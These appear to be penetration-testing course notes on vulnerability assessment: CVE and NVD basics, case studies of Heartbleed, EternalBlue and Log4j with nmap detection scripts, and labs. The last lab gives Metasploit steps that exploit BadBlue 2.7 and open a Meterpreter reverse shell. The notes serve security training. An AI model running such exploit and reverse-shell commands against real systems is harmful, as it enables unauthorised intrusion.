- [Assessment Methodologies: Vulnerability Assessment](#assessment-methodologies-vulnerability-assessment)
  - [Introduction](#introduction)
  - [Vulnerability Overview](#vulnerability-overview)
    - [Vulnerability <b>NIST</b> Definition:](#vulnerability-bnistb-definition)
    - [<o>CVE</o> Common Vulnerabilities and Exposures](#ocveo-common-vulnerabilities-and-exposures)
    - [<b>NVD</b> National Vulnerability Database](#bnvdb-national-vulnerability-database)
    - [Understanding Vulnerability Detail Pages](#understanding-vulnerability-detail-pages)
    - [Zero Days and other Vulnerabilities](#zero-days-and-other-vulnerabilities)
    - [Business aspects](#business-aspects)
    - [Where does Pentesting fit in?](#where-does-pentesting-fit-in)
    - [How to find our vulnerabilities?](#how-to-find-our-vulnerabilities)
  - [Vulnerability Case Studies](#vulnerability-case-studies)
    - [HeartBleed (CVE-2014-0160)](#heartbleed-cve-2014-0160)
      - [HeartBleed Anatomy of an Attack](#heartbleed-anatomy-of-an-attack)
    - [Eternal Blue - MS17-010 (CVE-2017-0143)](#eternal-blue---ms17-010-cve-2017-0143)
      - [EternalBlue Anatomy of an Attack](#eternalblue-anatomy-of-an-attack)
    - [Log4J (CVE-2021-44228)](#log4j-cve-2021-44228)
      - [Log4J Anatomy of an Attack](#log4j-anatomy-of-an-attack)
  - [Lab 1 (Nessus Lab)](#lab-1-nessus-lab)
  - [Lab 2 (Easy File Sharing Server)](#lab-2-easy-file-sharing-server)
    - [Exploit](#exploit)

# Assessment Methodologies: Vulnerability Assessment #

## Introduction ##

Course Topic Overview:
+ Vulnerabilities 
+ Case Studies 
  + Heartbleed
  + EternalBlue
  + Log4j
+ Labs
  + Nessus
  + ExploitDB

Learning Objectives:
+ Will describe vulnerabilities 
+ Will recognize Common Vulnerabilities and Exposures (CVE) reports and National Vulnerability Database submissions
+ Understand non-technical vulnerabilities (Layer 8)
+ Describe vulnerability management 
+ Perform network auditing 
+ Perform Vulnerability research 

## Vulnerability Overview ##

### Vulnerability <b>NIST</b> Definition: ###
+ A **weakness** in the computational logic (e.g., code) found in software and hardware components that, **when exploited**, results in a negative impact to <o>confidentiality, integrity, or availability</o>

Can also think of it as a <r>heist</r>: 
+ Valuables are stored somewhere, and there are things that can be exploited can get you to those variables 
  + including physical components (walls, cameras, locks, etc). They are on the OSI model (physical controls) and need to be considered
+ Cybersecurity Vulnerabilities are a weakness that can be exploited by a threat actor 
  + Comes from **Software** or **OS**
+ Who finds the vulnerabilities?
  + DevSecOps engineers 
  + Security Researchers 
  + Pentesters 
  + Software Developers
  + Users, on accident?

### <o>CVE</o> Common Vulnerabilities and Exposures ###
+ Funded with oversight by the US Department of Homeland Security compiles these and is managed by MITRE
+ Identifiers 
  + Also called:
    + CVE names
    + CVE numbers
    + CVE-IDs
    + CVEs
  + Example:
    + `CVE-2021-44228`

### <b>NVD</b> National Vulnerability Database ###
+ Managed by **NIST**, US government repository of vulnerability management data

### Understanding Vulnerability Detail Pages ###
+ Descriptions 
+ Severity 
+ References 
+ Weakness Enumeration 
+ Known Affected Software Configurations

Example with <r>Log4j</r>: [Log4j CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
+ See that it has a link to NVD (National Vulnerability Database)
  + More details and description on that page
  + Will gage severity 
    + Has a **base score**
  + advisories solutions and tools 
  + Known Affected Software Configurations
    + Very important for vulnerability scanners to find the vulnerabilities 
+ Has a description 
+ Lots of references 
+ Who assigned it 

Remediation for <r>Log4j</r>
+ Patches do exist, but when you are writing a report, we have to take into account if that system can be patched easily

### Zero Days and other Vulnerabilities ###

**Zero Day**: An exploit/Vulnerability that is new 
+ Should be shared if found

**Not All** Vulnerabilities Are Computer Code
+ Social engineering techniques 
+ Physical controls 
  + More attack surface on the inside of the building

### Business aspects ###
Will need to determine the scope and need fo the business to do a penetration test

Risk Management includes Cyber Security and needs to be factored in with different priority 

### Where does Pentesting fit in? ###

+ Risk Management Includes:
  + Vulnerability Management Includes:
    + Vulnerability Assessment Includes:
      + <r>Penetration Test</r>

### How to find our vulnerabilities? ###

+ Scanning 
+ Asset Identification + Research 
+ Fuzz Testing (input/handling validation)

## Vulnerability Case Studies ##

CVEs can be found on https://cve.mitre.org/

### HeartBleed (CVE-2014-0160) ###

Can see that OpenSSL 1.0.1 could not handle a Heartbeat Extension packet. Allowed for the reading of private keys 
+ With the cryptographic keys, can un encrypt the traffic and read it 

Can scan for it with a nmap script
+ <o>--script ssl-enum-ciphers</o>
  + very often done on port 443 as it is a common user of OPENSSL
  + Can see what ciphers are being used and if it is Open SSL version 1.0.1
+ <o>--script ssl-heartbleed</o>
  + A direct scan for this vulnerability
  + Try a bunch of ports that are running an encrypted protocol

<r>www.exploit-db.com</r> can quickly provide exploits and scans for many vulnerabilities 
+ Including **HeartBleed**

#### HeartBleed Anatomy of an Attack ####








+ Classic buffer over-read, returned too much information
+ If the server is compromised, can also do this to the user

### Eternal Blue - MS17-010 (CVE-2017-0143) ###

Very well known vulnerabilty, part of a WannaCry ransomware attack. Affected hospitals, governments, etc. Took advantage of SMB with a buffer overflow
+ Alleged that the US National Security Agency created the exploit and an insider threat released the tool kit and was exploited by threat actors
+ A young researcher, Marcus Hutchins, found out the kill code for the WannaCry virus 

SMBv1 servers in older Windows versions were vulnerable
+ The OS itself needed to be patched 

Can scan for it with nmap
+ <o>--script smb-vuln-ms17-010</o> 
  + From microsoft's internal bug numbering system
  + Test to see if it is vulnerable 

Can also go to <r>www.exploit-db.com</r>

#### EternalBlue Anatomy of an Attack ####




+ Very common for company to not update an OS if they don't need any new futures 
  + For example a machine running on an older windows that just pumps oil 
+ It is ok to leave it, but will need a plan to protect and encapsulate the legacy equipment 

### Log4J (CVE-2021-44228) ###

A library used for logging in java 
+ did not protect against controlled LDAP and JNDI related endpoints
+ An attacker who can control log messages can execute arbitrary code loaded from LDAP servers

Effected **Gaming**, **Web** apps, etc
+ Simple to run an LDAP server and take advantage of the exploit 

#### Log4J Anatomy of an Attack ####

+ Should look for certain web apps to see if it is vulnerable Ex: Apache
+ Or games, for example in mineshaft could use server chat, would inject the code and the backend server would evaluate it 





+ Would need to spin up a malicious LDAP server to return the malicious code

## Lab 1 (Nessus Lab) ##

Nessus is a very useful scanners to report vulnerabilities, and will direct you to the CVEs to do more research 
+ If in scope it might make sense to get a proof of concept by actually doing an exploit on the vulnerability

## Lab 2 (Easy File Sharing Server) ##

Came across a server with an OS of `Windows Server 2008`, and a web server of port 80 running `BadBlue httpd 2.7`
+ BadBlue looks to be a file server with the ability to upload files
+ Googling it brings us to a NIST page: https://nvd.nist.gov/vuln/detail/CVE-2007-6377
  + stack based buffer overflow possible, allowing attackers to execute arbitrary code via a long query string
+ Will take us to <r>exploit-db</r> and can use an exploit from there

### Exploit ###

In this case, <r>msfconsole</r> has a vulnerability 
+ Will `search badblue 2.7`
+ can `use exploit/windows/http/badblue_passthru`
+ `set rhosts IP`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set lhost eth1`
+ once in meterpreter, type `shell`

Now have a reverse shell
+ Can do whatever we want from there

